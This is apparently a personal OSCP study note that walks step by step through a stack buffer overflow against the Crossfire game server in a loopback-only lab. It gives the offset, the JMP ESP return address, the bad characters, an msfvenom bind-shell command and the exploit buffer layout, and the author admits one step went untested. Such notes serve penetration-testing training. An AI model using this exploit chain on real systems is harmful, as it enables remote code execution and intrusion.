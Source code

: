 ```yaml
---
title: "OSCP: Linux Buffer Overflow"
parent: OSCP
nav_order: 2
categories:
  - Cyber Security
tags:
  - OSCP
  - Linux
  - Buffer Overflow
---
```


# Linux Buffer Overflow (Crossfire)
Download a version of the vulnerable app Crossfire
### Setup safe environment: iptables only allow traffic from loopback interface=targetip
iptables –A, -p, -d, -j # Append, protocol, destination, jump
crossfire listens on port 13327
iptables -A INPUT -p tcp --destination-port 13327 \! -d 127.0.0.1 -j DROP
iptables -A INPUT -p tcp --destination-port 4444 \! -d 127.0.0.1 -j DROP
### 1. Run debugger and crash the app
Get POC code from exploit db
edb --run /usr/games/crossfire/bin/crossfire. In EDBG: Hit RUN twice
crash = “\x41” *4379
buffer = “\x11(setup sound “ + crash + “\x90\x00#”
python fuzz.py
2. Control EIP
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 4379
Swap into the crash var: python linux_buffer_overflow.py 
EIP has been overwritten with the hex characters… 46 36 70 46
These are unique 4 bytes in the buffer. Now find where they are in the buffer.
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 4379 -q 46367046
[*] Exact match at offset 4368
Replace “crash = "\x41" * 4368 + "B" * 4 + "C" * 7”: python EIP_BBBB.py


3. Make space for the shellcode  
Check for helpful registers: Follow in dump.
EAX points to buffer start “setup sound “ opstring (len 12). Want to avoid these bytes. 
ESP points to end of buffer “C * 7” (spare bytes). 
Add 12 bytes to EAX to align EAX with the A’s => JMP EAX we skip over “setup sound “
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > add eax,12 	83C00C add eax,byte +0xc
nasm > jmp eax 		FFE0 jmp eax
Add instructions together (JMP EAX + 12 bytes) = \x83\xc0\x0c\xff\xe0 to python. Looks like I didn’t test again here? Just note nasm output and move on?
4. Discover bad characters
All bad chars (except x00) contained in deault named script. Can use this for future.
python bad_chars.py
ID/remove bad chars in buffer. Right-click EAX. Follow in stack & dump. Stack looked better in EDBG. Scroll down dump until end of A’s. Then should see 01, 02, 03… etc until a failure. remove failure from bad_chars.py. Redo until ESP-error-free crash 
Removed: (\x00\x0a\x0d\x20)


5. Redirect execution flow - Find a return address
So, we know we want to reach the buffer pointed to by the ESP register.
EDBG: Plugins: Opcode Seacher: 
Once the application is in a crashed state use dropdown to search for:
ESP -> EIP: 
Choose 1st JMP ESP. Add address to python script at BBBB.
crash = "\x41" * 4368 + "\x97\x45\x13\x08" + "\x83\xc0\x0c\xff\xe0\x90\x90“
EDBG: Add breakpoint at 0x08134597 to execution flow. 
Right-click Go to Address 0x08134597. Double click on it to place breakpoint.
Restart EDBG. Send payload. Should pause at First stage payload.
Next instruction is JMP ESP. F8. We are redirected to ESP 83C00C 
As EAX register aligned by stage one, a JMP EAX takes us to a clean buffer of A’s
6. Make shellcode excluding bad characters
bind or reverse? why?
msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f c –b "\x00\x0a\x0d\x20" –e x86/shikata_ga_nai
Resulting shell code is 105 bytes
7. Add shellcode into python script
shellcode = ("\xd9\... \x30")
ret="\x97\x45\x13\x08”
crash=shellcode + "\x41" * (4368 - 105) + ret + "\x83\xC0\x0C\xFF\xE0\x90\x90“
buffer = "\x11(setup sound " + crash + "\x90\x00#“
TURN OFF EDBG FOR EXPLOIT TO WORK: RUN CROSSFIRE: RUN EXPLOIT /usr/games/crossfire/bin/crossfire
python exploit.py
id; whoami
